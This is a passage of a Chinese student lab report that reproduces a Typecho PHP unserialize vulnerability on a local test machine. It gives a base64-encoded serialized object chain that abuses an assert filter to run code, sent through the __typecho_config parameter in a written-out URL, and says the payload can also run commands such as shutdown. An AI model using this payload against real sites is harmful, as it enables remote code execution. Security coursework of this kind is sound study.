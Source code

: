 ​	如图所示，出现了当前电脑所安装的php基本信息，证明成功执行了 `phpinfo()`！



## 5 执行其他系统命令

​	我们还可以使用该payload来执行一些常见的系统命令，比如说关机，启动APP、新建文件等。

​	我们可以将`phpinfo();`替换为`fopen(\'newfile.txt\', \'w\');`该条命令的作用是新建一个文件。我们把exe.php文件中代码句`$this->_params['screenName'] = 'phpinfo()';`中的`phpinfo()`替换为`fopen(\'newfile.txt\', \'w\');`，即实现在exe.php目录下产生一个名为`newfile.txt`的文本文件。

​	我们通过重复的操作，来提取到这个新命令的`payload`如下：`YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjI1OiJmb3BlbignbmV3ZmlsZS50eHQnLCAndycpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=`

​	然后同样通过GET请求方式把其传入到typecho.php文件，打开浏览器输入URL：

```
http://127.0.0.1/typecho.php?__typecho_config=YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjI1OiJmb3BlbignbmV3ZmlsZS50eHQnLCAndycpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=
```

​	回车运行发现无报错，证明运行成功。我们去对应的文件夹下面查看，发现确实多了一个新的文件，说明我们的系统命令执行成功。

![image-20240502191956950](E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab13\Lab13_2211044_陆皓喆.assets\image-20240502191956950.png)

> 上面这个报错本来还看了好久，后来发现貌似没有影响
>
> 但是我们还是需要对其进行修改，我们为了实现该命令的运行，对typecho.php文件中的`Typecho_Feed`类做了一定的修改，确保`__toString()`方法能够返回一个字符串。修改后如下：
>
> ```php
> class Typecho_Feed {
>     private $item;
> 
>     public function __toString() {
>         if (isset($this->item['author']) && isset($this->item['author']->screenName)) {
>             return $this->item['author']->screenName;
>         } else {
>             return '';
>         }
>     }
> }
> ```

​	我们查看我们在系统目录下的文件夹内，出现了一个新文件`newfile`！

![image-20240502192057147](E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab13\Lab13_2211044_陆皓喆.assets\image-20240502192057147.png)



**所以我们的复现到这里就成功了！本学期的实验到此完结！！！**
